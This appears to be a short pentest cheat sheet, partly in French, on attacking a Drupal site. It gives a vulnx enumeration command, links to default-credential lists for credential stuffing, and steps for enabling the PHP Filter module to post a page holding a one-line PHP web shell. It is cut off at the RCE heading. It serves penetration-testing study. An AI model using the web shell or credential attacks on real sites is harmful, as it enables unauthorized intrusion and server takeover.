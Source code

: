 # ENUMERATION #VULNX 


```bash
vulnx -u <url> --cms-info all --web-info --domain-info
```



---

# EXPLOITATION


- [[#Tester Weak credentials / Credential stuffing]]
- [[#PHP Filter Module (before version 8)]]
- [[#PHP Filter Module (after version 8)]]
- [[#Uploading a Backdoored Module]]
- [[#CVEs]]


## Tester Weak credentials / Credential stuffing

admin:admin, admin:password....
### Credential Stuffing (Liste de default creds)

Resources:

https://www.cirt.net/passwords
https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
https://github.com/scadastrangelove/SCADAPASS/blob/master/scadapass.csv
https://github.com/ihebski/DefaultCreds-cheat-sheet/tree/main




## PHP Filter Module (before version 8)

> [!TIP]
> Possible d'activer le Php Filter Module afin d'injecter du code php.
> Si le module est installé mais le PHP Code n'est pas disponible, aller dans les permissions du module et cocher Use the PHP code text format 


Content --> Add content -> Basic Page

```php
<?php
system($_GET['cmd']);
?>
```

Text format -> PHP code

### RCE
